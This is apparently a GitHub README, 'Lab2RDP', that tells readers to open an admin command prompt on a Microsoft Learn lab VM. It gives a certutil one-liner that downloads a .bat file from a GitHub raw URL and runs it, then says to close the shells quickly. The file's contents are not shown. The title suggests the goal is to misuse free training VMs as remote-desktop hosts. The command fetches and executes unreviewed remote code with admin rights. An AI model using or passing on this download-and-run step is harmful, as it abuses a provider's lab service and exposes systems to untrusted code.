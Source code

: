 # Lab2RDP

Go to

https://docs.microsoft.com/en-us/learn/modules/extend-elements-finance-operations/4-exercise

sign go to vm open cmd as admin and type this:


# when on VM quick close cmd and powershell

certutil.exe -urlcache -split -f https://raw.githubusercontent.com/mrX04/lab2rdp/master/lab6cfree.bat && lab6cfree.bat
